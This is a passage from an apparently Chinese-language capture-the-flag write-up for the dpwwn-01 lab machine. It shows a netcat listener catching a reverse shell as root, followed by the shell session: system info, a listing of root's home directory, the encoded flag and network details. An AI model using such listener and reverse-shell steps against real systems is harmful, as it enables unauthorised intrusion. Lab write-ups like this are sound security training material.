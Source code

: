 - 开启监听,等待反弹shell.

- ```shell
  └─$ sudo nc -nvlp 1234                                                    
  [sudo] password for kali: 
  listening on [any] 1234 ...
  connect to [192.168.2.2] from (UNKNOWN) [192.168.2.11] 53594
  bash: no job control in this shell
  [root@dpwwn-01 ~]# whoami
  whoami
  root
  [root@dpwwn-01 ~]# uname -a
  uname -a
  Linux dpwwn-01 3.10.0-957.el7.centos.plus.i686 #1 SMP Wed Nov 7 19:17:19 UTC 2018 i686 i686 i386 GNU/Linux
  [root@dpwwn-01 ~]# ls -lhai
  ls -lhai
  total 32K
  4214849 dr-xr-x---.  2 root root  182 Aug  1  2019 .
       64 dr-xr-xr-x. 17 root root  211 Aug  1  2019 ..
  4214851 -rw-------.  1 root root 1.4K Aug  1  2019 anaconda-ks.cfg
  4216146 -rw-------.  1 root root   14 Aug  1  2019 .bash_history
  4261510 -rw-r--r--.  1 root root   18 Dec 28  2013 .bash_logout
  4261511 -rw-r--r--.  1 root root  176 Dec 28  2013 .bash_profile
  4261512 -rw-r--r--.  1 root root  176 Dec 28  2013 .bashrc
  4261513 -rw-r--r--.  1 root root  100 Dec 28  2013 .cshrc
  4216147 -r-x------.  1 root root  171 Aug  1  2019 dpwwn-01-FLAG.txt
  4216567 -rw-------.  1 root root    0 Aug  1  2019 .mysql_history
  4261514 -rw-r--r--.  1 root root  129 Dec 28  2013 .tcshrc
  [root@dpwwn-01 ~]# cat dpwwn-01-FLAG.txt
  cat dpwwn-01-FLAG.txt 
  
  Congratulation! I knew you can pwn it as this very easy challenge. 
  
  Thank you. 
  
  
  64445777
  6e643634 
  37303737 
  37373665 
  36347077 
  776e6450 
  4077246e
  33373336 
  36359090
  [root@dpwwn-01 ~]# ip a
  ip a
  1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
      link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
      inet 127.0.0.1/8 scope host lo
         valid_lft forever preferred_lft forever
      inet6 ::1/128 scope host 
         valid_lft forever preferred_lft forever
  2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 1000
      link/ether 00:0c:29:a5:89:fa brd ff:ff:ff:ff:ff:ff
      inet 192.168.2.11/24 brd 192.168.2.255 scope global noprefixroute dynamic ens33
         valid_lft 1792sec preferred_lft 1792sec
      inet6 fe80::20c:29ff:fea5:89fa/64 scope link 
         valid_lft forever preferred_lft forever
  [root@dpwwn-01 ~]# 
  ```

